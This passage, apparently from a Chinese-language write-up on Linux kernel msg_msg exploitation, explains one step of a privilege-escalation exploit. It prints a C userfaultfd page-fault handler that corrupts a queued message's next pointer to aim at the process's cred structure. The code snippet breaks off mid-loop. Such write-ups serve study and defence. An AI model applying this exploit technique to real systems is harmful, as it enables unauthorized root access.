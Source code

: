   ![2-7](/images/posts/msg_msg/2-7.png)

**篡改QID #3 中`msg_msg->next`指针**：释放第1个错误处理，将**QID #3**中的`msg_msg->next`指针，篡改为当前进程的`cred-0x8`（因为segment的头8字节必须为null，避免`load_msg()`访问next segment时崩溃）。

```c
[...]

        if (page_fault_location == page_1 + PAGE_SIZE)
        {
            printf("[PFH 1] Page fault at 0x%lx\n", page_fault_location);
            memset(buff, 0, PAGE_SIZE);

            puts("[PFH 1] Releasing faulting thread");

            struct evil_msg *msg = (struct evil_msg *)(buff + 0x1000 - 0x40);

            msg->m_type =  0x1;
            msg->m_ts = 0x1000;
            msg->next = (uint64_t)(cred_struct - 0x8); // [1] 将 QID #3 中的 msg_msg->next 指针，篡改为当前进程的 cred-0x8

            ufd_copy.dst = (unsigned long)(page_fault_location);
            ufd_copy.src = (unsigned long)(&buff);
            ufd_copy.len = PAGE_SIZE;
            ufd_copy.mode = 0;
            ufd_copy.copy = 0;

            for (;;)
            {
                if (release_pfh_1)
                {
                    if (ioctl(ufd, UFFDIO_COPY, &ufd_copy) < 0)
                    {
                        perror("ioctl(UFFDIO_COPY)");
                        exit(1);
```